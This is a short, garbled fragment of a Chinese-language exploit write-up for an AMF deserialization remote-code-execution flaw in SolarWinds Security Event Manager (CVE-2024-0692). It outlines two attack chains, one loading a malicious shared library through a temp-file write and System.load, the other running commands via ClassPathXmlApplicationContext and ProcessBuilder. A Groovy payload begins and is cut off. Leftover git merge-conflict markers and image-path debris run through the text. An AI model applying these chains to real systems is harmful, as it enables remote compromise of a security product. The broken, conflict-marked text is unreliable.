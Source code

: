 [![](assets/1710212142-ac36d54e9ca97c60eb2c1c1365a276f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304191530-82a0a3c4-da18-1.png)

直接给出我的两种利用思路：
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

写文件 + System.load

1.  利用 File.createTempFile 创建临时文件
2.  利用 commons-io 的 FileUtils 分块写文件
3.  利用 commons-beanutils 的 MethodUtils 反射调用实例 / 静态方法
4.  利用 System.load 加载动态链接库

ClassPathXmlApplicationContext

1.  利用 commons-beanutils 的 ConstructorUtils 实例化 ClassPathXmlApplicationContext
2.  XML 内调用 ProcessBuilder.start 执行命令

### File Write + System.load

payload (Groovy)

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
import javax.naming.Reference
import javax.naming.StringRefAddr

// SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692)
// file write + System.load

def prefix = 'test'
def lib_path = '/Users/exp10it/exp.so'

def list = []
```